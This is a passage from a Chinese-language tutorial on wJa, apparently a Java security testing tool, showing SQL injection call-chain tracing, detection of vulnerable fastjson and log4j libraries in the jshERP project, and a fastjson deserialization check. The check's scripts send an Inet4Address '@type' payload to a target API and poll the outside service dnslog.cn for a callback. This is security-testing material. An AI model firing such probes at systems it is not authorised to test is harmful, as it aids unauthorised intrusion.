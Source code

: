 最终看一下打印的信息。

![sqli](img/8.jpg)

可以看到最终成功打印出存在SQL注入的调用链并且黑盒测试存在漏洞。

细心的朋友可能发现这里面存在一条真实IAST调用链，这个是通过java agent注入得到的真实调用，可以看到确实进入了SQLI的危险函数。

## 案例2：获取危险库

靶场已经了解的差不多了，那么就进入实战操作，这里用到的实战项目是华夏ERP：https://github.com/jishenghua/jshERP。

需要启动mysql和redis，并且进行简单的配置，这里就不赘述，可以根据项目github的readme进行操作。

同样的打开jar包。

wJa自带了一个检查危险库的方法，是通过扫描pom.xml导入的库判断是会否存在危险的库，源代码不贴了，运行结果：

![package](img/9.jpg)

可以看到存在危险的fastjson和log4j组件。

## 案例3：fastjson检测

与SQLI检测唯一的不同就是sink的函数是不同的，并且检测方法也是不同的。

sink函数fastjson的parseObject方法，所以应该这样子改变：`TrackVarIntoFun(className,methodName,argIndex,"com/alibaba/fastjson/JSONObject","parseObject",0,1);`

对于fastjson的检测最好借助dnslog，所以需要写一个dnslog的工具包：

```javascript
function getDnsLogDomain(){
    SetGlobalValue("dnslogCookie","User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/50.0.2661.87 Safari/537.36".StrRN()."Cookie: PHPSESSID=wJa;");
    res = HttpGet("http://www.dnslog.cn/getdomain.php?t=0.02695357778962082",dnslogCookie);
    dns = StrSplit(res[0],StrRN());
    return dns[0];
}
function getDnsLogRecord(){
    res = HttpGet("http://www.dnslog.cn/getrecords.php?t=0.29442376629799494",dnslogCookie);
    rec = StrSplit(res[0],StrRN());
    return rec[0];
}
```

通过获得dns域名，然后通过`java.net.Inet4Address`访问对应的dns查看回显判断是否真实存在反序列化漏洞。

```javascript
function judgeFastjson(api){
	domain = getDnsLogDomain();
	res1 = HttpGet(api."%7B%22%40type%22%3A%22java.net.Inet4Address%22%2C%22val%22%3A%22".domain."%22%7D",cookie);
	Sleep(1000);
	if(getDnsLogRecord() != "[]"){
		return 1;
	}
	return 0;
}
```

